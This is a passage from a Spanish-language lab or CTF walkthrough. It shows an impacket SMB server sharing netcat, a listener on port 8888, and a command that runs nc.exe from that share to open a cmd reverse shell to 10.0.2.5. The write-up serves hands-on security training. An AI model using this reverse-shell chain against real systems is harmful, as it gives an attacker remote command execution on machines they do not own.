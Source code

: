```bash
$ impacket-smbserver -smb2support kali .
Impacket v0.12.0.dev1 - Copyright 2023 Fortra

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
```

Nos ponemos a la escucha:

```bash
$ nc -nlvp 8888
listening on [any] 8888 ...

```

Y tras ejecutar `\\10.0.2.5\kali\nc.exe -e cmd 10.0.2.5 8888`

![image](/assets/images/ensala/5.png)

